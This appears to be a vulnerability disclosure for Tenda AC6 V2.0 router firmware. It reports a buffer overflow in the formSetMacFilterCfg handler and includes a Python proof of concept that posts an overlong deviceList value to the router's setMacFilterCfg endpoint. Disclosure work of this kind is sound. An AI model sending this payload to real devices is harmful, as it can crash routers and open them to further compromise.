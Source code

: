 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "formSetMacFilterCfg"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

In the function `formSetMacFilterCfg`, user-supplied parameters **`macFilterType`** and **`deviceList`** are passed to a function **without input validation**, ultimately leading to an **overflow**.

![image-20250614182456806](C:\Users\SolitaryGrass\AppData\Roaming\Typora\typora-user-images\image-20250614182456806.png)

poc

```
import requests
def send_payload(url, type,list):
    params = {b'macFilterType': type,b'deviceList': list}
    cookie={'password':'ssetgb'}
    response = requests.post(url, cookies=cookie, data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")
url="http://192.168.1.1/goform/setMacFilterCfg"
type=b'black'
list="DEADBEEFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\r11"
send_payload(url, type, list)
```

![image-20250616215744978](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250616215744978.png)